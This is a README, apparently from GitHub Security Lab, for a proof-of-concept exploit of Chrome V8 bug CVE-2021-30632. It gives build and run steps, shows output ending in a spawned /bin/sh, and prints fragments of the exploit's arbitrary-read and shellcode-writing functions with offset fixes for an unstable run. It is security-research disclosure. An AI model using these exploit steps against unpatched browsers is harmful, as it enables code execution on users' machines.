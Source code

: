 From: https://github.com/github/securitylab/tree/main/SecurityExploits/Chrome/v8/CVE-2021-30632



The analysis of this bug can be found here. This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on v8 version 9.3.345.16 (commit 632e6e7), which is the version shipped with Chrome 93.0.4577.63, the one before the bug is fixed, on Ubuntu 20.04. I have not tested it on Chrome itself.

To test, check out v8 at commit 632e6e7 and compile with the default settings using tools/dev/gm.py x64.release. Then open the file poc.js with d8:

./d8 poc.js
On Ubuntu 20.04, it should call execve("/bin/sh") to spawn a new process:

./d8 poc.js
instance: 81d42dd
elements: 804abd9
rwx page address: 22c70c88b000
intArray addr: 8105d79
intBackingStore: 56498ceb25e0
$
Shell code may need changing on other platforms.

The exploit is very reliable, however, when testing, I noticed that some offsets appear to be sensitive to small changes in the file (even adding comments may cause problem), which would cause the exploit to fail. This only happens when the file is modified and usually manifests itself with some garbage values of the addresses, for example:

instance: 81d42dd
elements: 800222d
rwx page address: 3ff199999999999a
intArray addr: 81067e1
intBackingStore: 3ff199999999999a
In the above, address of rwx page and initBackingStore are clearly incorrect. The root cause seems to be an incorrect elements store value. (800222d is not a valid value) This can usually be fixed by changing the following lines regarding the address of elements:

function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);  //<---- change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));          //<---- change to   oobWrite(i32tof(addr1,addr));
  return writeArr[0];
}
...
function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  console.log("intArray addr: " + intArrAddr.toString(16));
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  console.log("intBackingStore: " + ftoi(arbRead(intArrAddr + 0x20)).toString(16));

  [elements, addr1] = ftoi32(addrs[1]);              //<------ change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));        //<------ change this to oobWrite(i32tof(addr1, intArrAddr + 0x20));
  ...
}
...
var elementsAddr = ftoi32(addrs[1])[0];             //<------- change this to var elementsAddr = ftoi32(addrs[1])[1];
This, however, does not affect the reliability of the exploit as the offsets are stable as long as the file is fixed, but it may cause issues if the poc is modified. I do not know what causes this, but the exploit can probably be made more robust against this by matching patterns in memory instead of relying on fixed offsets.
